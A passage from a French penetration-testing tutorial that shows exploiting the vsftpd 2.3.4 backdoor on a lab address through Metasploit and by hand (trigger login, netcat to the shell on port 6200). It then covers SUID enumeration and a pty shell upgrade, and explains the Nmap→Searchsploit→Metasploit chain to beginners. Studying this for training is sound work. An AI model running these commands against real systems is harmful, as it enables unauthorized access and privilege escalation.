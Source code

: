 2. **Vérification de la vulnérabilité**

```bash
# Test de connexion FTP
ftp 10.10.10.10
> USER backdoor:)
> PASS anypassword
```

3. **Exploitation avec Metasploit**

```bash
# Lancer Metasploit
sudo msfconsole

# Utiliser l'exploit
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > set RHOSTS 10.10.10.10
msf6 > exploit
```

4. **Exploitation manuelle (sans Metasploit)**

```bash
# Déclencher la backdoor
ftp 10.10.10.10
> USER backdoor:)
> PASS anypassword

# Dans un autre terminal, se connecter au shell
nc 10.10.10.10 6200
```

5. **Élévation de privilèges**

```bash
# Vérifier l'utilisateur actuel
whoami

# Rechercher des binaires SUID
find / -perm -u=s -type f 2>/dev/null

# Exploiter un binaire SUID si trouvé
python -c 'import pty; pty.spawn("/bin/bash")'
```

**En clair, pour un débutant :** L'intégration offensive signifie utiliser Nmap comme première étape d'une attaque. D'abord, vous scannez avec Nmap pour trouver les services vulnérables. Ensuite, vous utilisez Searchsploit pour chercher des exploits connus pour ces services. Enfin, vous utilisez Metasploit pour exploiter ces vulnérabilités et obtenir un accès. C'est comme une chaîne : reconnaissance (Nmap) → recherche d'exploits (Searchsploit) → exploitation (Metasploit). Pour les grands réseaux, vous pouvez commencer avec des scanners plus rapides comme Masscan ou Rustscan, puis utiliser Nmap pour les détails.

## 9. OPSEC & Évasion avancée

